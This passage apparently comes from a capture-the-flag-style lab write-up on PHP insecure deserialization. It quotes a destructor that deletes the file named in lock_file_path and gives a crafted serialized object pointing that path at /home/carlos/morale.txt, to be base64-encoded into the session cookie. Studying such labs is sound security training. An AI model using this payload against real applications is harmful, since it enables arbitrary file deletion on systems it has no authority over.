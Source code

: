   <img src="image3.png" width="800" hight="500"/>
</p>

```bash
function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
```

the above function is deleted the file in the `lock_file_path` variable 

So, we will create a serialized object of this class and put the file we want to be deleted in this variable `lock_file_path` to be like the following

```bash
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

Encode it as base64 and replace it in the request session

<p align="center" width="100%">